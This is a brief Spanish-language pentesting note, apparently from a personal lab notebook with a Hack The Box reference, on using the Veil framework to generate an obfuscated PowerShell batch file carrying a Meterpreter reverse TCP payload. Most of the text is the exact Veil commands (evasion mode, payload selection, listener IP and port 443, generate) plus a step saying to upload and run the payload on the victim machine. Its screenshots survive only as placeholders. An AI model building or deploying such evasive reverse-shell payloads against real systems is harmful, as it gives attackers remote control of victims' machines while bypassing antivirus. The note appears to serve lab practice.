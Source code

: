 
## DESCRIPTION



#### Mas información
* https://github.com/Veil-Framework/Veil


## EXPLOITATION

### OPTION 1: .BAT OFUSCADO POWERSHELL

1. Ejecutamos veil

![[Pasted image 20230510185630.png]]

2. Configuramos

```
use 1 (EVASION MODE)
USE 22 (powershell/meterpreter/rev_tcp.py)
set lhost 192.168.45.245
set lport 443
options
generate
```

4. Obtenemos el payload que tenemos que subir a la máquina victima y ejecutar:

![[Pasted image 20230510185920.png]]

## MACHINES

* Hack The Box: 

